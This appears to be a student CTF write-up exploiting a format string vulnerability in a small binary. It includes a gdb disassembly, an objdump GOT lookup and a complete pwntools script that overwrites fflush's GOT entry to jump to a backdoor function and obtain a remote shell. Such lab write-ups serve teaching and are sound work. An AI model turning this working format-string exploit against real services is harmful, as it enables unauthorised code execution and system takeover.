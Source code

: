 # **Final Format**
- This ctf seemed similar to other we had done. The server return the string we wrote.
- It's also visible that there a format string vulnerability by writing "%x":
![1](images/CTFEXTRA2.2.PNG)
- Analysing the program checksec:
![1](images/CTFEXTRA2.1.PNG)
- We can see that there is a canary, so no buffer overflow.
- We can also see that there is no PIE, which means that there is no randomization of positions in memory. This will probably used in our exploit.
- Next thing to do is to run gdb in the program.

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804926d <+0>:	endbr32 
   0x08049271 <+4>:	push   ebp
   0x08049272 <+5>:	mov    ebp,esp
   0x08049274 <+7>:	push   ebx
   0x08049275 <+8>:	sub    esp,0x40
   0x08049278 <+11>:	call   0x8049170 <__x86.get_pc_thunk.bx>
   0x0804927d <+16>:	add    ebx,0x2d83
   0x08049283 <+22>:	mov    eax,gs:0x14
   0x08049289 <+28>:	mov    DWORD PTR [ebp-0x8],eax
   0x0804928c <+31>:	xor    eax,eax
   0x0804928e <+33>:	lea    eax,[ebx-0x1fd8]
   0x08049294 <+39>:	push   eax
   0x08049295 <+40>:	call   0x80490b0 <printf@plt>
   0x0804929a <+45>:	add    esp,0x4
   0x0804929d <+48>:	mov    eax,DWORD PTR [ebx-0x4]
   0x080492a3 <+54>:	mov    eax,DWORD PTR [eax]
   0x080492a5 <+56>:	push   eax
   0x080492a6 <+57>:	call   0x80490c0 <fflush@plt>
   0x080492ab <+62>:	add    esp,0x4
   0x080492ae <+65>:	lea    eax,[ebp-0x44]
   0x080492b1 <+68>:	push   eax
   0x080492b2 <+69>:	lea    eax,[ebx-0x1fb8]
   0x080492b8 <+75>:	push   eax
   0x080492b9 <+76>:	call   0x8049110 <__isoc99_scanf@plt>
   0x080492be <+81>:	add    esp,0x8
   0x080492c1 <+84>:	lea    eax,[ebx-0x1fb3]
   0x080492c7 <+90>:	push   eax
   0x080492c8 <+91>:	call   0x80490b0 <printf@plt>
   0x080492cd <+96>:	add    esp,0x4
   0x080492d0 <+99>:	lea    eax,[ebp-0x44]
   0x080492d3 <+102>:	push   eax
   0x080492d4 <+103>:	call   0x80490b0 <printf@plt>
   0x080492d9 <+108>:	add    esp,0x4
   0x080492dc <+111>:	mov    eax,DWORD PTR [ebx-0x4]
   0x080492e2 <+117>:	mov    eax,DWORD PTR [eax]
   0x080492e4 <+119>:	push   eax
   0x080492e5 <+120>:	call   0x80490c0 <fflush@plt>
   0x080492ea <+125>:	add    esp,0x4
   0x080492ed <+128>:	mov    eax,0x0
   0x080492f2 <+133>:	mov    edx,DWORD PTR [ebp-0x8]
   0x080492f5 <+136>:	xor    edx,DWORD PTR gs:0x14
   0x080492fc <+143>:	je     0x8049303 <main+150>
   0x080492fe <+145>:	call   0x8049390 <__stack_chk_fail_local>
   0x08049303 <+150>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x08049306 <+153>:	leave  
   0x08049307 <+154>:	ret    
End of assembler dump.
```

- By looking at this, we can say that the program prints the string "There is
nothing to see here...", calls scanf, prints the string "You gave me this:" and another
printf with the buffer that contains the user input.
- Another thing we found was this old_backdoor function with the "info function". By the name of it, it will be useful. It will probably give us shell access.
![1](images/CTFEXTRA2.3.PNG)
- So by then we already knew we were going. We needed to use the format string vulnerability to access this old_backdoor function. 
- Next thing to do was to discover the size of the scanf. Using a break at the scanf in the gdb, we discovered that it take up to 60 bytes.
![1](images/CTFEXTRA2.4.PNG)
- Now we just needed the address of the fflush address.
- To do that we used this:
```
objdump -R program | grep fflush
```
![1](images/CTFEXTRA2.5.PNG)

- With all the information we needed to construct a script.
- Using the information in this site:
    - http://www.linuxfocus.org/Portugues/July2001/article191.shtml

- We contructed this script:
```py
from pwn import *

p = remote('ctf-fsi.fe.up.pt', 4007)
	
content = bytearray(0x00 for i in range(60))

content[0:16] = (0xaaaaaaaa).to_bytes(4,byteorder='little')
content[4:8] = (0x0804c012).to_bytes(4,byteorder='little')
content[8:12] = (0xaaaaaaaa).to_bytes(4,byteorder='little')
content[12:16] = (0x0804c010).to_bytes(4,byteorder='little')

back1 = 0x0804 - 16
back2 = 0x9236 - 0x0804
string = "%." + str(back1) + "x%hn%." + str(back2) + "x%hn"

content[16:16+len(string)] = (string).encode('latin1')

p.recvuntil(b"...")
p.sendline(content)
p.interactive()
```
- Running this script, we get shell access and we can reach the flag.txt.
![1](images/CTFEXTRA2.6.PNG)